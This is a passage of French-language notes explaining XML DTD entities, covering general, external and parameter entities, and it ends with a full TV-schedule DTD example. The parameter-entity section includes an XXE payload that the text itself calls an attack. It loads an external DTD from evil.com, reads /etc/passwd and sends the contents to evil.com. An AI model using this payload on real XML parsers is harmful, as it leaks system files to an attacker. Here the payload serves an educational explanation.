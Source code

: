L'équivalent de variable, peuvent contenir une valeur donnée ou load le contenu d'un fichier \(local ou depuis un lien\). Ce second cas est ce qu'on appelle une entité externe.

```markup
<!DOCTYPE test [
    <!ENTITY entity_name1 "entity-value">
    <!ENTITY entity_name2 SYSTEM "URI/URL">
]>
<test>&entity_name1;</test>
```

#### Parameter Entity

Elles permettent 2 choses :

* Etre référencées directement dans le DTD
* Référencer une autre entité dans leur valeur \(uniquement possible si elles sont en externe\)

L'exemple qui suit sert à une attaque mais montre bien l'idée :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
    %wrapper;
```

### Example Complet

```markup
<!DOCTYPE TVSCHEDULE [

<!ELEMENT TVSCHEDULE (CHANNEL+)>
<!ELEMENT CHANNEL (BANNER,DAY+)>
<!ELEMENT BANNER (#PCDATA)>
<!ELEMENT DAY (DATE,(HOLIDAY|PROGRAMSLOT+)+)>
<!ELEMENT HOLIDAY (#PCDATA)>
<!ELEMENT DATE (#PCDATA)>
<!ELEMENT PROGRAMSLOT (TIME,TITLE,DESCRIPTION?)>
<!ELEMENT TIME (#PCDATA)>
<!ELEMENT TITLE (#PCDATA)> 
<!ELEMENT DESCRIPTION (#PCDATA)>

<!ATTLIST TVSCHEDULE NAME CDATA #REQUIRED>
<!ATTLIST CHANNEL CHAN CDATA #REQUIRED>
<!ATTLIST PROGRAMSLOT VTR CDATA #IMPLIED>
<!ATTLIST TITLE RATING CDATA #IMPLIED>
<!ATTLIST TITLE LANGUAGE CDATA #IMPLIED>
]>
```
